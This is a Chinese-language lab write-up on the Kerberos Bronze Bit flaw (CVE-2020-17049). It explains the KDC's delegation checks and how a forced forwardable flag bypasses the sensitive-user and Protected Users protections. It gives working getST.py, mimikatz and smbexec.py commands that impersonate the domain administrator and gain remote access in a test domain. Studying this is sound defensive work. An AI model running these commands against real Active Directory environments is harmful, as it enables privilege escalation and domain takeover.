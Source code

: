 # Kerberos Bronze Bit（CVE-2020-17049）

微软允许我们通过添加如下设置，来阻止此用户被服务委派：

- 用户设置为敏感用户，不允许被委派。
- 用户被添加到 Protected Users 安全组内。
- 上游服务的约束性委派设置了仅使用 kerberos 。

只要配置了这三种的其中一种选项，那么约束性委派和基于资源的约束性委派都将失效，我们接下来将会详细讨论微软阻止此用户被委派的代码逻辑。

##### 微软判断约束性委派的过程如下

1. 上游服务发送 **S4U2Self 扩展**的 tgs-req 请求 **S4U2Self 票据**。
2.  kdc 判断上游服务的 msDS-AllowedToDelegateTo 值是否为空。
   - 如果为空， **S4U2Self 票据不可转发**。
   - 如果不为空， **S4U2Self 票据可转发**。
   - 因为上游服务配置了约束性委派，所以 **S4U2Self 票据可转发**。

3. 上游服务发送  **S4U2Proxy 扩展**的 tgs-req 请求 **S4U2Proxy 票据**，并且 tgs-req 中必须携带**可转发的S4U2Self 票据**。
4.  kdc 判断上游服务的 msDS-AllowedToDelegateTo 值是否存在要请求的下游服务。
   - 如果有，返回 **S4U2Proxy 票据**。
   - 如果没有，不返回 **S4U2Proxy 票据**。

##### 微软判断基于资源约束性委派的过程如下

1. 上游服务发送 **S4U2Self 扩展**的 tgs-req 请求 **S4U2Self 票据**。
2.  kdc 判断上游服务的 msDS-AllowedToDelegateTo 值是否为空。
   - 如果为空， **S4U2Self 票据不可转发**。
   - 如果不为空， **S4U2Self 票据可转发**。
   - **S4U2Self 票据是否可转发**都不会对基于资源约束性委派产生影响。

3. 上游服务发送  **S4U2Proxy 扩展**的 tgs-req 请求 **S4U2Proxy 票据**，且 tgs-req 中携带的**S4U2Self 票据**既可以是可转发的，也可以是不可转发的。
4.  kdc 判断下游服务的 msDS-AllowedToActOnBehalfOfOtherIdentity 值是否存在要请求的上游服务。
   - 如果有，返回 **S4U2Proxy 票据**。
   - 如果没有，不返回 **S4U2Proxy 票据**。

##### 微软限制用户的约束性委派

众所周知，如果上游服务的 msDS-AllowedToDelegateTo 值不为空，在 S4U2Self 阶段，上游服务请求了**可转发的**、**针对自身的** **S4U2Self 票据** ，但如果此值为空，上游服务将请求到**不可转发的**、**针对自身的** **S4U2Self 票据**，因为 **S4U2Self 票据**不可转发，它将不能用作请求 **S4U2Proxy 票据**。

由上我们看到， **S4U2Self 票据**是否**可转发**，决定着其是否能请求到 **S4U2Proxy 票据**，而上游服务的 msDS-AllowedToDelegateTo 值决定着 **S4U2Self 票据**是否**可转发**。但当我们将被委派的用户设置为上述三种选项的其中之一时，kdc 不论上游服务的 msDS-AllowedToDelegateTo 值是否为空，都将 **S4U2Self 票据** 设置为**不可转发**，后续将不能用于请求 **S4U2Proxy 票据**。

综上所述，微软限制此用户的约束性委派是通过强制设置 **S4U2Self 票据不可转发**来实现的。

##### 微软限制用户的基于资源的约束性委派

S4U2Self 票据是否可转发和基于资源的约束性委派没有任何关系。只要上游服务的 msDS-AllowedToDelegateTo 值不为空， **S4U2Self 票据**就是可转发的，否则 **S4U2Self 票据**就是不可转发的。影响基于资源的约束性委派的值有且仅有下游服务的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性。

如果确实存在基于资源的约束性委派，微软会检查用户是否设置为“敏感用户”或加入 **Protected Users** 安全组，以限制 **S4U2Proxy 票据** 的发放。

综上所述，微软判断用户是否设置了如下选项，如果用户设置了如下选项，将限制 **S4U2Proxy 票据**发放：

- 用户设置为敏感用户，不允许被委派。
- 用户被添加到 Protected Users 安全组内。

### 漏洞

##### 微软限制用户的约束性委派的绕过

微软限制此用户的约束性委派是通过强制设置 **S4U2Self 票据不可转发**来实现的，所以如果我们原先配置了约束性委派，只要把 **S4U2Self 票据**设置为**可转发**，就可绕过约束性委派的限制。

##### 微软限制用户的基于资源的约束性委派的绕过

微软在发放 **S4U2Proxy 票据** 之前，会检查用户是否设置为“敏感用户”或加入 **Protected Users** 安全组，以限制 **S4U2Proxy 票据** 的发放。然而，这一检查只会在 **S4U2Self 票据** 设置为**不可转发**时进行。如果 **S4U2Self 票据** 被设置为**可转发**，那么这部分检查代码将被绕过，从而可以绕过基于资源的约束性委派的限制。

所以只要将 **S4U2Self 票据**设置为**可转发**，既能绕过**非约束性委派限制**也能绕过**基于资源约束性委派限制**。

##### 条件

- 能进行委派攻击。
- 拥有上游服务的 hash 凭据（篡改 forward 标志位）。

### 约束性委派攻击流程

- 上游服务：deandean
- 下游服务：WIN-0V0GAORDC17（域控机器账户）
- 委派用户：administrator

![image-20250103203535258](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250103203535258.png)

1. 不篡改 **S4U2Self 票据** 的 forward 标志位，会显示 **S4U2Proxy 票据**遭受限制 。

```
python getST.py -dc-ip WIN-0V0GAORDC17.HACKER.com HACKER.com/deandean:p-0p-0p-0p-0 -spn cifs/WIN-0V0GAORDC17.HACKER.com -impersonate administrator
```

![image-20250103202837442](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250103202837442.png)

2. 添加 -force-forwardable 参数，强制修改 **S4U2Self 票据** 的 forward 标志位为1，来请求 **S4U2Proxy 票据**。

```
python getST.py -dc-ip WIN-0V0GAORDC17.HACKER.com HACKER.com/deandean:p-0p-0p-0p-0 -spn cifs/WIN-0V0GAORDC17.HACKER.com -impersonate administrator -force-forwardable
```

![image-20250103202911195](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250103202911195.png)

3. 将请求到的 .ccache 票据文件转为 .kirbi 票据文件。

```
# 这一步是因为我的 smbexec.py 脚本使用 .ccache 票据文件访问域控 smb 服务总是失败，但这是脚本的问题，并不是票据的问题，所以使用 mimikatz 来访问域控，而域控需要 .kirbi 格式票据文件，所以需要将 .ccache 票据文件转为 .kirbi 票据文件。

python ccache2kirbi.py administrator@cifs_WIN-0V0GAORDC17.HACKER.com@HACKER.COM.ccache 1.kirbi
```

![image-20250103202955876](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250103202955876.png)

4. 将此票据导入 mimikatz 会话访问域控服务。

```
dir \\WIN-0V0GAORDC17.HACKER.com\c$
```

![image-20250103203053175](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250103203053175.png)

### 基于资源的约束性委派攻击

- 上游服务：win10-02
- 下游服务：WIN10-01
- 委派用户：administrator

![image-20250103204102820](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250103204102820.png)

上图就是我们事先在下游服务上配置的基于资源的约束性委派

1. 不篡改 **S4U2Self 票据** 的 forward 标志位，会显示 **S4U2Proxy 票据**遭受限制 。

```
python getST.py -spn cifs/WIN10-01.HACKER.com -impersonate administrator -dc-ip 192.168.72.163 HACKER.com/win10-02$:p-0p-0p-0p-0
```

![image-20250103204406695](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250103204406695.png)

2. 添加 -force-forwardable 参数，强制修改 **S4U2Self 票据** 的 forward 标志位为1，来请求 **S4U2Proxy 票据**。

```
python getST.py -spn cifs/WIN10-01.HACKER.com -impersonate administrator -dc-ip 192.168.72.163 HACKER.com/win10-02$:p-0p-0p-0p-0 -force-forwardable 
```

![image-20250103204600398](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250103204600398.png)

3.  使用 smbexec.py 直接利用 .ccache 票据文件。

```
export KRB5CCNAME=/tmp/administrator@cifs_WIN10-01.HACKER.com@HACKER.COM.ccache

python3 smbexec.py -no-pass -k WIN10-01.HACKER.com 
```

![image-20250103205308806](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250103205308806.png)